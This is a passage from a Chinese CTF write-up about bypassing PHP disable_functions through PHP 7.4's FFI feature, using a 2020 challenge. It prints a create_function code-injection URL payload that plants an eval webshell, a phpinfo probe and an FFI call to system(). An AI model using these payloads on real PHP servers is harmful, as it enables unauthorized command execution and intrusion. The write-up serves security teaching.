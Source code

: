 这将返回一个新创建的 FFI 对象，然后使用以下方法即可调用这个对象中所声明的函数：

```
$ffi ->system("ls / > /tmp/res.txt");   # 执行ls /命令并将结果写入/tmp/res.txt
```

由于 system 函数执行命令无回显，所以需要将执行结果写入到 tmp 等有权限的目录中，最后再使用 `echo file_get_contents("/tmp/res.txt");` 查看执行结果即可。

可见，当 PHP 所有的命令执行函数被禁用后，通过 PHP 7.4 的新特性 FFI 可以实现用 PHP 代码调用 C 代码的方式，先声明 C 中的命令执行函数或其他能实现我们需求的函数，然后再通过 FFI 变量调用该 C 函数即可 Bypass disable_functions。

### 利用方法

下面，我们通过 [极客大挑战 2020]FighterFightsInvincibly 这道题来演示利用 PHP 7.4 FFI 来突破 disable_functions 的具体方法。

进入题目：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDUAnUeJiciaNeC9ahQJTG1CSDic7EIhX2DxDpMjXNSEveRk82XdVfQXmIg/640?wx_fmt=png)image-20210131172115794

查看源码发现提示：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDOmHOqicHzicAC0S4HOA2yvwINvIy9gzM1qkNBCtS0ibdPDCrdW2rzoOvw/640?wx_fmt=png)image-20210131172151420

```
$_REQUEST['fighter']($_REQUEST['fights'],$_REQUEST['invincibly']);
```

可以动态的执行 php 代码，此刻应该联想到 create_function 代码注入：

```
create_function(string $args,string $code)//string $args 声明的函数变量部分//string $code 执行的方法代码部分
```

我们令 `fighter=create_function`，`invincibly=;}eval($_POST[whoami]);/*` 即可注入恶意代码并执行。

payload：

```
/?fighter=create_function&fights=&invincibly=;}eval($_POST[whoami]);/*
```

使用蚁剑成功连接，但是无法访问其他目录也无法执行命令：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDPwNiaaRfh4RKsItWE13wmje6oWTxwCPOntu0iaJ9A8tV6THMYGryDzHQ/640?wx_fmt=png)image-20210131180706212![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDJ8Pfv9icdibTsIglEuZeSxkDCasWUqE9o67L3SOLRAqtPuaOAHIWGTww/640?wx_fmt=png)image-20210209202533891

很有可能是题目设置了 disable_functions，我们执行一下 phpinfo() 看看：

```
/?fighter=create_function&fights=&invincibly=;}phpinfo();/*
```

发现果然用 disable_functions 禁用了很多函数：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDUE5auy8I6vznx5eC0NyZEZylIOcn0L4R9tK2guNXU9icPibzOuz12XGg/640?wx_fmt=png)image-20210131180834146

根据题目名字的描述，应该是让我们使用 PHP 7.4 的 FFI 绕过 disabled_function，并且我们在 phpinfo 中也看到 FFI 处于 enable 状态：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDy9U02iaPn15gacGlc4hjNLYT7bdIJSWoda5zucf9ibKqm9KqXHfLmRmw/640?wx_fmt=png)image-20210131184100349
